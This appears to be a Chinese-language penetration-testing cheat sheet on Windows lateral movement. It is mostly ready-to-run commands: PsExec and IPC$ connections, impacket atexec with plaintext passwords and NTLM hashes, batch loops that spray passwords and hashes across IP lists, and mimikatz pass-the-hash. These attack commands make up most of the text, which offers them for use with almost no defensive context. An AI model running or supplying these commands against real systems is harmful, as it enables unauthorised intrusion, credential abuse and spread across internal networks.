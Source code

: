 **PSEXEC**

方法是 先建立IPC通道连接，然后直接使用，具体操作如下：

```bash
net use \\192.168.0.1\ipc$ “password” /user:administrator # 同上 建立连接
psexec.exe \\192.168.0.1 cmd                   # 进入半交互式cmdshell

# 另一种是在psexec的参数中指定账户密码
psexec.exe \\192.168.0.1 –u administrator –p password
```




**横向渗透明文/HASH传递 atexec-impacket**

```bash
atexec.exe ./administrator:Admin12345@192.168.xx.xx "whoami" # 直接执行命令
atexec.exe god/administrator:Admin12345@192.168.xx.xx "whoami" # 域
atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.xx.xx "whoami" # 传递HASH
```

**横向渗透明文/HASH传递批量利用-**

```bash
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator #批量检测IP对应明文连接
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami  #批量检测IP对应明文有回显
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.xx.xx whoami #批量检测明文对应IP 有回显
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.xx.xx whoami #批量检测HASH对应IP回显版
```






### 域

#### **域/工作组横向-PTH传递**

- PTH(pass the hash)
  - PTH在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不用提供明文密码。
  - PTH不能算作一种漏洞。而是可以算作一种技巧。利用获得的用户 HASH 去直接连接相同域的其他用户的电脑或者共享文件夹。尝试通过这样的方法横向碰撞出不同的机器。



**mimikatz**

- (工作组)通过 pth 进行远程登录(cmd)
```bash
mimikatz.exe privilege::debug

mimikatz.exe privilege::debug "sekurlsa::pth /user:用户名  /domain:目标机器IP  /ntlm:密码哈希"

mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:192.168.1.1 /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
```
